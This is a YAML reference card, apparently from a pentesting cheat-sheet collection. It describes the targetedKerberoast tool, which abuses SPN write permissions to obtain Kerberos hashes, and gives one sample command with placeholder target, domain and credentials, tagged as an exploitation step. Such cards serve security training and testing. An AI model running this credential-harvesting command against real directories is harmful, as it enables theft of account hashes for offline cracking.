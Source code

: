 ```yaml
---
description: |
  targetedKerberoast is a Python script that can, like many others (e.g. GetUserSPNs.py), print "kerberoast" hashes for user accounts that have a SPN set. This tool brings the following additional feature: for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), print the "kerberoast" hash, and delete the temporary SPN set for that operation.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
phases:
  - Exploitation
references:
  - https://github.com/ShutdownRepo/targetedKerberoast
---
```

